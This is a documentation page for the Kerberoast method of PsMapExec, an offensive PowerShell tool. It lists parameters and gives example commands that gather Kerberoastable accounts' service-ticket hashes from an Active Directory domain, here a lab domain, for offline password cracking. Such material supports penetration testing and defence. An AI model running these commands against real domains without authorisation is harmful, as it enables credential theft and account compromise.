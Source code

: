 # Kerberoast

PsMapExec will now perform kerberoasting. By default, all kerberoastable users are obtained and written to file. All hashes are output to file and split into each file depending on the associated encryption.

Output is stored in: `$PWD\PME\Kerberoast`

### Optional Parameters

<table><thead><tr><th width="174">Parameter</th><th width="164">Value</th><th>Description</th></tr></thead><tbody><tr><td>-Domain</td><td>Domain</td><td>Set the Domain for which to run against</td></tr><tr><td>-Option</td><td>Kerberoast:USER</td><td>Specify a single user to roast than than all candidate users</td></tr><tr><td>-ShowOutput</td><td>N/A</td><td>Displays hash output to the console</td></tr></tbody></table>

Obtain all Kerberoastable users from target domain

```powershell
PsMapExec -Method kerberoast -Domain north.sevenkingdoms.local
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Single user specification

```powershell
PsMapExec -Method Kerberoast -ShowOutput -Option Kerberoast:USER
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
